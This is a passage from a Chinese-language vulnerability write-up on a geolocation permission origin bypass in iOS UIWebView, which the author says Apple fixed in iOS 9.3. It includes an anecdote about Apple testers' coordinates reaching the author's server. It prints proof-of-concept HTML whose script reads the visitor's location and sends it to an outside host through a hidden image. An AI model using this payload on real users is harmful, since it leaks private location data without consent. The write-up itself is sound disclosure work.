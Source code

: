 Base64 decode：

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset=utf-8 />
<title>geolocation</title>
<body>
<script>
function success(position) {
document.getElementById('remote').src="http://xisigr.com/test/geo/get.php?geolocation="+"------"+encodeURIComponent(position.coords.latitude)+","+encodeURIComponent(position.coords.longitude);
}
navigator.geolocation.getCurrentPosition(success);
</script>
<img id="remote" src="" width=0 height=0>
</body>
</html>

```

Safari:

![p3](http://drops.javaweb.org/uploads/images/899a85c1204016ab46afcae56a526b2feeea5111.jpg)

Chrome:

![p4](http://drops.javaweb.org/uploads/images/c0e287dccab4c9a937782395ea01e2d1d055ec4e.jpg)

还记得前面W3C官方文档对Geolocation认证源的描述吧，“认证框上的URI源，必须要和当前页面的源相同”。此时，我们已经成功的绕过了同源策略，使`data:`域的Geolocation认证源在其他任意域弹出。当用户点击允许后，系统也并没有检查认证UI上的源和当前页面源是否相同，于是地理位置就被发送到攻击者服务器了。

当时，我是先把这个漏洞报送给了Google，但由于Geolocation的认证100%是由IOS UIWebView来控制，所以Google对IOS平台下Chrome出现的这个问题也没有太好的解决方法。之后，我把这个漏洞提交给了APPLE。APPLE于今年3月21日在IOS 9.3版本中修复了这个漏洞。

0x03 廉价的苹果总部地理位置？？
==================

* * *

在2016/1/6，我的服务器上收到了一些地理位置回传信息。因为在我提交的POC中明确的指出，使用自己的服务器搭建了一个漏洞验证环境，如果触发，数据则会传到我的服务器上。

![p5](http://drops.javaweb.org/uploads/images/5c5c3a4b0114bd896b53a26bcbfcfaabde3b8423.jpg)

在查阅后发现，37.332578830316436,-122.03068509201906,显示的正是APPLE的美国总部地址。

![p6](http://drops.javaweb.org/uploads/images/05bfde1ee7f752dbfb734a8fbe61e9a87b989225.jpg)

从获取到的返回数据可以发现，苹果研究人员分别在2016/1/6、2016/1/7、2016/1/8、2016/1/10、2016/1/20、2016/1/22、2016/1/28这7个时间段触发了POC，而且地址是相同的，都是在美国苹果总部。可能当时验证的苹果研究人员，并没有自己搭建漏洞验证环境，而是直接使用了我提供的POC中的原有环境，所以导致在验证漏洞的时候地理位置回传到了我的服务器上。

他们应该知道到这个问题，因为在POC中明确指出数据会回传到这个地址xisigr.com/test/geo/info.txt。但是，他们还是义无反顾的触发了7次漏洞，是疏忽大意还是并不在意苹果总部的地理位置被泄漏出去，因为这个地址在网上都可以任意查到。但就算是这样，我还是很惊讶,苹果测试人员的地理位置和他们的作息时间就这样被获取到了。

这当然不仅仅是一个故事，只是想提醒大家，在真实复杂的网络攻击中，蛛丝马迹的信息有时会成为“千里之堤毁于蚁穴”的突破口。不要让类似于地理位置这样重要的隐私信息变得如此廉价。
